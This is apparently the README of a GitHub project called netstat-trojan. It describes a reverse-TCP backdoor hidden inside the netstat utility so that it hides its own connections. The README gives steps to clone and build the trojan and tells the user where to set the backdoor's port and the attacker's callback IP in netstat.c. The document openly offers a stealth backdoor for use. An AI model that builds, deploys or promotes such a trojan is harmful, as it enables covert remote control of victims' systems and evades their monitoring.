 
# netstat-trojan
**netstat-trojan** is a reverse-TCP backdoor disguised within the netstat utility. It's designed to automatically exclude itself from the netstat output.

## Setup

1. Clone the repository:
   ```bash
   git clone https://github.com/Drew-Alleman/netstat-trojan/
   ```
2. Navigate to the cloned directory:
   ```bash
   cd netstat-trojan/
   ```
3. Initialize the configuration scripts:
   ```bash
   ./autogen.sh
   ```
4. Run the configuration:
   ```bash
   ./configure
   ```

## Configuration Process
To configure the Netstat-Trojan to suit your specific needs, you will need to modify the `netstat.c` file:

1. Open `netstat.c` in your preferred text editor. For example, using `vim`:
   ```bash
   drew@ubuntu-desktop:~/Projects/netstat-trojan$ vim src/netstat.c
   ```
2. Locate and modify the following settings:

   - **Port Configuration**: Define the port to host the backdoor.
     ```c
     #define PORT 44566
     ```
   - **Server IP Configuration**: Set the attacking IP address or the server address that the backdoor will connect to.
     ```c
     #define SERVER_IP "192.168.0.87"
     ```

Ensure that you replace `PORT` and `SERVER_IP` with the values that align with your desired configuration.
